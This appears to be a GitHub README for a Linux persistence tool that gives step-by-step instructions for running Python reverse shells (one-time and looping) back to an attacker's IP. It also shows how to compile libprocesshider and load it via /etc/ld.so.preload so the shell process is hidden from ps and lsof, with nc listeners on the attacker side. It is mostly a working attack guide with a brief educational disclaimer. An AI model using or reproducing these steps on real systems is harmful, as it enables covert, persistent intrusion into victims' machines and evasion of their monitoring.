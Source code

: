 <h1 style="font-size:10vw" align="left">Linux Persistence Access </h1>

## Warning
⚠️ *For educational and authorized security research purposes only*

## Original Exploit Authors
[@gianlucaborello](https://github.com/gianlucaborello), [@therealdreg](https://github.com/therealdreg)

## Exploit Description
This script is python based and is used to create a reverse shell of the victim machine. There are two scripts, the first one is used for a one-time reverse shell and the other for an infinite reverse shell with a loop mechanism every 2 seconds. And to improve defense evasion, we'll hide processes on Linux using the ld preloader.

## Demo
![Animation](https://github.com/asepsaepdin/libprocesshider/assets/122620685/5fde2a4d-355d-46cc-b211-08e9a352b83d)

## Step Guides
1. Establish a connection to victim's machine using SSH
```
┌──(kali㉿kali)-[~]
└─$ ssh administrator@www.servint.org
```
2. Change s.connect(("**172.16.10.7**",**2220**)) in the shell.py file with the perpetrator's address for one-time reverse shell
3. Change sdregs.connect(("**172.16.10.7**",**9999**)) in the loop-shell.py with the perpetrator's address for infinite reverse shell
4. Make shell.py and loop-shell.py executable:
```
administrator@Server-01:/tmp/libprocesshider$ chmod +x shell.py
administrator@Server-01:/tmp/libprocesshider$ chmod +x loop-shell.py
```
5. Change static const char* process_to_filter = "**shell.py**"; in the processhider.c with the script you want to use
6. Then, compile the library:
```
administrator@Server-01:/tmp/libprocesshider$ make
gcc -Wall -fPIC -shared -o libprocesshider.so processhider.c -ldl
administrator@Server-01:/tmp/libprocesshider$ sudo mv libprocesshider.so /usr/local/lib/
```
6. Then, Load it with the global dynamic linker
```
root@Server-01:~# echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload
```
7. Create new terminal on perpetrator's machine and run this command for connect with one-time reverse shell and this command for infinite reverse shell::
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 2220
```
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 9999
```
8. Run shell.py or loop-shell.py:
```
administrator@Server-01:/tmp/libprocesshider$ ./shell.py
administrator@Server-01:/tmp/libprocesshider$ ./loop-shell.py
```
9. And your process will be off the radar 
```
administrator@Server-01:/tmp/libprocesshider$ sudo ps aux
USER PID %CPU %MEM VSZ RSS TTY STAT START TIME COMMAND
```
```
administrator@Server-01:/tmp/libprocesshider$ sudo lsof -ni
COMMAND PID USER FD TYPE DEVICE SIZE/OFF NODE NAME
```

## Exploit Requirements
- python3
- gcc

## Credits
- https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/
- https://github.com/gianlucaborello/libprocesshider
- https://github.com/therealdreg/python_reverse_shell_detached_background
